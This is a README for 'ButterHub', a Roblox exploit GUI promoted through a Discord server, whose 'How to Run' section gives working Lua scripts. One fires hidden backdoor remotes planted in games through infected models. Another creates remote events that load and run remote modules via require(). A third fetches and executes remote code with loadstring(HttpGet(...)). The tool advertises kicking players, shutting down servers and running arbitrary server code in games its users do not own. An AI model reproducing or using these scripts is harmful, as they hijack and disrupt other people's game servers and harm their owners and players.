 # ButterHub

## ButterHub is a Roblox ServerSided and FE exploiting GUI, this GUI consists of a Server Side and FE Version. [Our Discord Server](https://discord.gg/xWYcdnECvw)

---

<p style="font-size:40px"><strong>Main Information</strong></p>

<p style="font-size:35px"><strong>Description</strong></p>

<p style="font-size:18px">
    <span>
    <strong>
        ButterHub
    </strong>
    </span>
    <span>
    is a Roblox Exploit GUI, this GUI has many options such as <code>Commands</code>, <code>Themes</code>, <code>Player Action</code>, and <code>More</code>! ButterHub is technically a Server Destroying but Fun Roblox GUI, it states if the game has FilteringEnabled 
    </span>
    <span style="color: rgb(0,255,0)">
    <strong>Enabled (True)</strong>
    </span>
    </span>
    or
    </span>
    <span style="color: rgb(255,0,0)">
    <strong>Disabled (False)</strong>
    </span>
    <br/>
    <br/>
</p>

---

<p style="font-size:18px">
    <span style="font-size: 35px">
    <strong>Versions</strong>
    </span>
    <br/>
    <br/>
    <span style="margin-left:40px;font-size:25px;">
    <strong>SS (ServerSide)</strong>
    </span>
    <br/>
    <span>
    The ServerSide version is the most powerful as it can, <code>Kick</code>, <code>Shutdown Server</code>, <code>Run Require Scripts</code>, <code>Run Client and Server Code</code>, and <code>More</code>! The ServerSide is the <strong>Main version</strong> of ButterHub, right now it is currently in <strong style="color:rgb(0,120,255)">BETA</strong>.
    </span>
    <br/>
    <br/>
</p>

<p style="font-size:18px">
    <span style="margin-left:40px;font-size:25px;">
    <strong>FE (FilteringEnabled)</strong>
    </span>
    <br/>
    <span>
    The FE version is the average strength GUI that runs only Client Code. It does have it advantages though as it has, <code>Script Hub</code>, <code>More Options</code>, and <code>More</code>! The FE Version is the <strong>Secondary version</strong> of ButterHub it is mostly used in Exploiting instead of just games, right now it is currently <strong style="color:rgb(255,0,0)">NOT DONE</strong>.
    </span>
    <br/>
    <br/>
</p>

---

# **How to Run**

## **SS (ServerSide)**

### This one only works in some games that have the Infected Models in them, it abuses remotes to initalize it to you.
### So do not get mad if it does not work in a lot of games. It will only work in games with 1: The model, 2: Backdoor to allow you to run SS code. (How to use is stated below)

```lua
-- [[
Made by Puro,#0224 on Discord,
Join Our Discord: https://discord.gg/xWYcdnECvw
]] --

for _, Remote in ipairs(game:GetService("JointsService"):GetDescendants()) do
    if (Remote.Name:match("%^\\*")) then
        Remote:FireServer()
    end
end
```

### **How to use the SS Code part**

```lua
-- [[
Made by Puro,#0224 on Discord,
Join Our Discord: https://discord.gg/xWYcdnECvw

THIS WILL ALLOW YOU TO USE THE GUI IF THE MODEL ISN'T IN THE GAME BUT YOU CAN EXECUTE SERVER CODE.
]] --

local Kill = Instance.new('RemoteEvent', game:GetService('JointsService'))
Kill.Name = "%^\\Kill Event" --// It is important that "%^\\" is somewhere in the game.
local End = Instance.new('RemoteEvent', game:GetService('JointsService'))
End.Name = "%^\\*End Kill" --// It is important that "%^\\*" is somewhere in the game.
Kill.OnServerEvent:Connect(function(player, initData)
    require(11566712898)(initData)()
end)
End.OnServerEvent:Connect(function(player)
    require(11566309513).load(player.Name)
end)
```

### You then execute the first script.

## **FE (FilteringEnabled)**

### This one works in all games, but games could patch it. All you need to do is run the github Repository.

```lua
loadstring(game:HttpGet("github_link"), true)()
```

